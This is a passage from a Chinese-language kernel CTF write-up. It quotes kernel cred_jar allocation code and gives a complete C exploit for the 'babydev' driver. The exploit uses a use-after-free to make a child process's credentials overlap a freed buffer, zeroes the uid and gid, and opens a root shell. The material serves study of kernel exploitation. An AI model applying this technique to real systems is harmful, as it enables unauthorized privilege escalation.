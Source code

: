 > 	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred),
> 				     0, SLAB_HWCACHE_ALIGN|SLAB_PANIC, NULL);
> }
> ```

因此这里考虑介绍更加通用的解法，对旧的解法感兴趣的可以参考如下exp：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

int main(void)
{
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");

    ioctl(fd1, 0x10001, 0xa8); /* object to be reused as the child's cred */
    close(fd1);

    int pid = fork();

    if(pid < 0) {
        printf("\033[31m\033[1m[x] Unable to fork.\033[0m\n");
        return -1;
    }
    else if(pid == 0) { /* the child to get the UAF cred */
        char buf[30];

        memset(buf, '\0', sizeof(buf));
        write(fd2, buf, 28);  /* overwrite uid&gid to 0 directly */

        if(getuid() == 0) {
            puts("\033[32m\033[1m[+] Successful to get the root.\033[0m\n");
            system("/bin/sh");
            return 0;
        } else {
            printf("\033[31m\033[1m[x] Failed to get the root.\033[0m\n");
            return -1;
        }
    }
    else { /* the parent */
        wait(NULL); /* waiting for the child to be done */
    }

    return 0;
}
```

